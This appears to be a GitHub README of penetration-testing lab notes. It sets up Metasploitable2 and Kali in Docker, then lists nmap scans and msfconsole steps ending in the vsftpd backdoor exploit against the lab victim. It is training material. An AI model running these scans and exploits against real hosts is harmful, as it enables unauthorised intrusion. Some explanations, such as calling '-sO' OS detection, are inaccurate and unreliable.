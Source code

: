 # docker_metasploit_metasploitable2
[docker_link](https://medium.com/@habibsemouma/setting-up-metasploitable2-and-kali-in-docker-for-pentesting-6b71a089c4a2)
* search metasploitable2
```
docker search metasploitable
```
* pull (download metasploitable2)
```
docker pull tleemcjr/metasploitable2
```
* pull (download kali linux)
```
docker pull kalilinux/kali-rolling
```
* Test if image is present :
```
docker images
```
* Creation of network for the victim and the pentester
```
docker network create pentest
```
* RUNING on TERMINAL 1 (victim : metasploitable 2) :
```
sudo docker run --network=pentest -h victim -it --rm --name metasploitable2 tleemcjr/metasploitable2
```
Finding ip on victim : 
```
ip a
```
* RUNING on TERMINAL 2 (pentester : kali linux)
```
sudo docker run --network=pentest -h attacker -it --rm --name kalibox kalilinux/kali-rolling
```
Installing first tools : 
```
apt update
apt install net-tools
apt install nmap
ifconfig
apt install -y iputils-ping
apt install metasploit-framework
```
* Testing ping for 2 machines 
```
ping <ip_victim>
```
```
ping <ip_pentester>
```
* Testing nmap roadmap 
```
nmap -F <ip_victim>
```

* Finding host and scanning network 
learning.oreilly.com/library/view/ceh-certified-ethical

1. check for live systems
```
sudo nmap -sP <ip_victim_network>/24
```

2. check for open ports
(port 80, 443 for web)
```
sudo nmap -sT -p 80,443 10.7.1.0/24
```
T : for TCP using 3-way handshake (Full Open scan) </br>
message 1 : i'm prot 443 Are you theire (SYN) </br>
message 2 : yes i'm thiere, (SYN ACK) </br>
message 3 : let's talk (ACK) </br>
More detect by the IDS </br>
3-way handshake without connection 
```
sudo nmap -sS -p 80,443 <ip_victim_network>/24
```

S : Stealthy (half Open Scan)
(2way handshake)
```
sudo nmap -sT <ip_victim>
```
If with wirshark :  </br>
filter by ip.addr eq <ip_victim> </br>
click one converstation and "apply this filter" </br>

4. Perform banner grabbing
OS detection :
```
sudo nmap -sO <ip_victim>
```
Mora options 
```
sudo nmap -A <ip_victim>
```

5. scan vulnerabilities
```
namp --script vuln <ip_victim>
```
* Scanning using msfconsole :
In Kali Terminal :
```
msfconsole
```
```
show payloads 
```
```
use auxiliary/scanner/portscan/tcp
```
```
show options
```
```
set ports 80
```
```
set rhosts <ip_victim>
```
```
run
```
OR
```
exploit
```
* Testing backdoor vsftpd : 
```
nmap -sV -p 21 <ip_victim>
```
search the exploit : 
```
msfconsole
```
```
search vsftpd
```
run exploit : 
```
use 1
```
```
set rhosts <ip_victim>
```
```
set rport 21
```
```
exploit
```
